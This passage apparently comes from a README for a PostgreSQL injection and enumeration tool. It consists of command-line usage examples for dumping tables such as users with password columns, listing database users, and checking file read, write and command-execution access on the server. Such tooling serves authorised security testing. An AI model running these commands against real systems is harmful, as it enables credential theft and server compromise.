 2. **Run a basic security assessment**

   ```bash
   python3 psql-enum.py request.txt -X
   ```

3. **Extract data from a table**

   ```bash
   python3 psql-enum.py request.txt -u users -C username,password,email
   ```

## Usage Examples

### Database Enumeration

```bash
# Get server information
python3 psql-enum.py request.txt -S

# List database users
python3 psql-enum.py request.txt --list-users

# Extract all columns from a table
python3 psql-enum.py request.txt -a users
```

### Data Extraction

```bash
# Dump a table with specific columns
python3 psql-enum.py request.txt -u users -C username,email

# Limit results (first 10 rows starting at offset 5)
python3 psql-enum.py request.txt -u users -L 10 -O 5

# Extract data from a specific database/schema
python3 psql-enum.py request.txt -u users -D customers

# Extract data one column at a time (more reliable but slower)
python3 psql-enum.py request.txt -u users --column-by-column
```

### Security Assessment

```bash
# Run all security checks
python3 psql-enum.py request.txt -X

# Check file read capabilities
python3 psql-enum.py request.txt -R

# Check file write capabilities
python3 psql-enum.py request.txt -W

# Check command execution capabilities
python3 psql-enum.py request.txt -E

# Check user permissions on a table
python3 psql-enum.py request.txt -P users
```
